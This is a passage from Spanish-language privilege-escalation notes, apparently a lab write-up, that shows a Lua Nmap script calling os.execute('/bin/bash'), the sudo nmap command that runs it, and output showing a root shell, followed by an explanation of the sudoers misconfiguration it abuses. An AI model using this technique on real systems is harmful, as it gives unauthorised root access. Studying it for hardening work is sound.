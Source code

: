 Contenido del archivo:

```lua
description = "Shell NSE script"
author = "Metahumo"
license = "Same as Nmap--See https://nmap.org/book/man-legal.html"
categories = {"vuln"}

-- Ejecutamos /bin/bash como root
action = function()
  os.execute("/bin/bash")
  return "Shell lanzada"
end
```

---

## Ejecución del script con Nmap como root

### Acción:

```bash
sudo nmap --script ./shell.nse 127.0.0.1
```

---

### Resultado:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2025-06-14 17:00 UTC
NSE: Shell lanzada
# whoami
root
```

---

## Explicación:

- Al ejecutar el script `.nse` con `sudo`, el script tiene privilegios de root.
    
- El motor de scripting de Nmap (basado en Lua) nos permite ejecutar `os.execute()` para lanzar comandos del sistema.
    
- En este caso, `os.execute("/bin/bash")` lanza una shell con privilegios de root, lo que supone una escalada completa.
    
- Como el binario fue ejecutado sin requerir contraseña, cualquier usuario con permiso en sudoers para `nmap` podría realizar este ataque.
    

---

## Conclusión
